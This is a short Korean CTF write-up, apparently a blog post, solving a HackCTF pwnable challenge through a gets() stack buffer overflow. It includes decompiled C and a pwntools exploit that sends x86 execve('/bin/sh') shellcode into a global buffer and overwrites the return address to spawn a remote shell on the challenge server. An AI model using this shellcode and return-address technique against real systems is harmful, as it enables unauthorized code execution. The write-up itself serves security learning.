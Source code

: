 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
---
```


hackCTF pwnable 네번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u);
  printf("input : ");
  gets(&s);
  return 0;
}
```
<br>

정리해보자.<br><br>

***

|   ret   |          |
|:-------:|:--------:|
|   sfp   |  (4byte) |
|   ebp   | esp+0x14 |
|   ...   |          |
| s (esp) |          |

***
<br>
이번에는 read와 gets를 통해 입력 받을 수 있다. read를 통해 name에 쉘코드를 작성하고 gets를 통해 main 함수의 에필로그 과정에서 ret 대신 name의 쉘코드를 실행시키자<br><br>
목표 : name에 쉘코드 작성 + ret을 name의 주소로 덮기<br>
취약점 : gets(&s)<br><br><br>
+) name의 주소는 다음과 같이 .bss영역에 위치한다. 초기값이 없는 전역변수인 모양<br>
![0401](https://drive.google.com/uc?id=14EaC2vWFLHK-FQc2rLPv8xVBi1ZY0H7m)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*0x18+p32(0x0804A060)

p.recvuntil("Name : ")

p.send(payload)

p.recvuntil("input : ")

p.sendline(payload2)

p.interactive()
```
## 결과  
![0402](https://drive.google.com/uc?id=19pKWvGck62pXej_Gd1MQ-I4VVeLBke5C)
